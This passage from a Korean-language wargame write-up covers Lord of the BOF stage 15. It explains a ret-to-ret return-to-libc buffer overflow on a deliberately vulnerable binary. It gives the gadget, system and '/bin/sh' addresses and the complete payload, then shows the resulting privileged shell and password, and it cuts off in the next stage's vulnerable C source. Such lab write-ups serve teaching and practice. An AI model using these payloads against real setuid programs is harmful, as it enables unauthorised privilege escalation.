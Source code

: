 ret에 스택 주소도 올 수 없고, library 주소도 올 수 없다. 그럼 뭐 .text를 활용하라는 뜻인듯.

fake ebp가 생각이 났으나, 굳이 거기까지 않하고 ret 자리를 ret 명령어 주소로 덮으면 `ret+4` 위치에 존재하는 주소가 실행이 된다. 

```shell
"A"*44 | &ret | &system | "BBBB" | &binsh
```



objdump랑 gdb 이용해서 적당히 구한 자원들

```shell
 8048464:	c3                   	ret    
 8048465:	90                   	nop    

0x400fbff9:	 "/bin/sh"
(gdb) p system
$2 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>
```



뿅

```shell
[giant@localhost giant]$ ./assassin `python -c 'print "A"*44 + "\x64\x84\x04\x08" + "\xe0\x8a\x05\x40" + "BBBB" + "\xf9\xbf\x0f\x40"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAɀBBBB
bash$ id     
uid=514(giant) gid=514(giant) euid=515(assassin) egid=515(assassin) groups=514(giant)
bash$ my-pass
euid = 515
pushing me away
```

확실히 플래그 설정하신 분은 linkin park 노래를 좋아하는게 분명하다.





## STAGE 16 : assassin -> zombie_assassin

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - zombie_assassin
        - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack retbayed you!\n");
		exit(0);
	}

        if(argv[1][47] == '\x40')
        {
```